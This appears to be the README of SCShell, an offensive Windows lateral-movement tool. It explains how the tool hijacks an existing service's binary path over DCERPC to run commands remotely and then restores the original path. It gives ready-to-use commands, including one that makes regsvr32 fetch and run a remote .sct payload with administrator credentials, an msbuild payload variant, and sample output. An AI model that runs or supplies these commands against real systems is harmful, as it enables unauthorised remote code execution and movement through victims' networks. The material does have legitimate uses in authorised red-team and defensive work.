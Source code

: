 # SCShell

Fileless lateral movement tool that relies on ChangeServiceConfigA to run command. The beauty of this tool is that it doesn't perform authentication against SMB everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute 

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload username domain password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c regsvr32 /s /n /u /i://your.website/payload.sct scrobj.dll" administrator . Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" administrator . Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team
Tazz0 for the moral support
